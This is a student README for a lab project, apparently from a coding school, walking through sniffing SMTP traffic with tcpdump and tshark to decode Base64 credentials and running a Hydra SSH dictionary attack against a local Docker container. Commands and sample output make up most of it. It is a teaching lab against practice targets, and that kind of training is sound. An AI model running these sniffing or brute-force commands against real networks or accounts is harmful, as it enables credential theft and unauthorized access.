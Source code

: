 # alx-attack_is_the_best_defense
A repo for the optional project Attack is the best defense

## Task 0: ARP Spoofing and Sniffing Unencrypted Traffic

### Prerequisites
Before proceeding, ensure you have the required tools installed:

1. **Download the Program:**
   - Download the provided program:
     ```bash
     curl -O https://s3.amazonaws.com/intranet-projects-files/holbertonschool-sysadmin_devops/264/user_authenticating_into_server
     ```

2. **Install `tcpdump`:**
   - Update your package list:
     ```bash
     sudo apt-get update
     ```
   - Install `tcpdump`:
     ```bash
     sudo apt-get install tcpdump
     ```

3. **Install `tshark`:**
   - Install `tshark` for more human-readable output:
     ```bash
     sudo apt install tshark
     ```

### Intercepting Data
Now you're ready to intercept data between the `user_authenticating_into_server` program and the SendGrid server.

1. **Run `tcpdump`:**
   - Execute the following command to capture network traffic:
     ```bash
     sudo tcpdump -i eth0 -n -s 0 -A 'host smtp.sendgrid.net and port 587' -w sendgrid_traffic.pcap
     ```
     - `-i eth0`: Replace `eth0` with the network interface your program uses.
     - `-n`: Display numeric IP addresses and port numbers instead of resolving hostnames and services.
     - `-s 0`: Capture the entire packet.
     - `-A`: Display packet data (payload) in ASCII format.
     - `'host smtp.sendgrid.net and port 587'`: Capture traffic to and from SendGrid's SMTP server on port 587.
     - `-w sendgrid_traffic.pcap`: Save captured packets to a file for later analysis.

2. **Run Your Program:**
   - In a second Ubuntu terminal, give permission and then run your program:
     ```bash
     sudo chmod +x user_authenticating_into_server
     sudo ./user_authenticating_into_server
     ```

3. **Capture and Analyze:**
   - Wait for your program to execute, then interrupt the first terminal using `CTRL-C`.
   - You'll have a `sendgrid_traffic.pcap` file that you can analyze.

### Analyzing the Capture
You can analyze the capture file using either `tcpdump` or `tshark`:

- Using `tcpdump`:
   ```bash
   tcpdump -r sendgrid_traffic.pcap
   ```
- Using `tshark` for more human-readable output:
  ```bash
  15 3.999733 172.31.145.221 → 54.228.39.88 SMTP 80 C: User: bXlsb2dpbg==
  16 4.069955 54.228.39.88 → 172.31.145.221 TCP 66 587 → 57152 [ACK] Seq=196 Ack=63 Win=32256 Len=0 TSval=2327286244 TSecr=1468075274
  17 4.069956 54.228.39.88 → 172.31.145.221 SMTP 84 S: 334 UGFzc3dvcmQ6
  18 4.070087 172.31.145.221 → 54.228.39.88 TCP 66 57152 → 587 [ACK] Seq=63 Ack=214 Win=64128 Len=0 TSval=1468075345 TSecr=2327286244
  19 6.001628 172.31.145.221 → 54.228.39.88 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
  ```
  
  This part of the output shows the authentication process with the information:
   
    User: bXlsb2dpbg==
  
    Pass: bXlwYXNzd29yZDk4OTgh

  Credentials are Base64 encoded, so the decoded information would be:
  
    User: mylogin
  
    Pass: mypassword9898!


## Task 1: Dictionary Attack

Performing a dictionary attack using Hydra to guess a password for an SSH account.

## Prerequisites

- Docker: [Install Docker](https://docs.docker.com/get-docker/)

## Setup

1. Pull and run the Docker image `sylvainkalache/264-1` with the following command:

    ```bash
    docker run -p 2222:22 -d -ti sylvainkalache/264-1
    ```

2. Start the Docker container by replacing `<container_id>` with the ID of the newly created `sylvainkalache/264-1` container:

    ```bash
    docker start -ai <container_id>
    ```

3. Install Hydra:

    ```bash
    sudo apt-get install hydra
    ```

4. Download a potential password list in `.txt` format. You can find one in the [SecLists library](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt).

5. To save time and resources, isolate passwords with 11 characters from your password list:

    ```bash
    grep -oE '\b\w{11}\b' all_passwords.txt > 11_char_passwords.txt
    ```

## Running the Attack

Run Hydra with the specified requirements:

```bash
hydra -l sylvain -P 11_char_passwords.txt ssh://127.0.0.1
```

   - `-l sylvain`: Specifies the target username as "sylvain." This is the username for which you are attempting to guess the password.

   - `-P 11_char_passwords.txt`: Specifies the password list or wordlist you are using for the attack. In this case, the wordlist contains passwords with 11 characters. Hydra will try each password from this list in an attempt to gain access to the SSH service.

   - `ssh://127.0.0.1`: Specifies the target SSH service running on the local host (127.0.0.1). Hydra will attempt to log in to this SSH service using the provided username and the passwords from the wordlist.

Please practice patience as hydra tries every password in the file until it finds the right one. Once successful, it will return an output similar to:

```bash
[22][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```
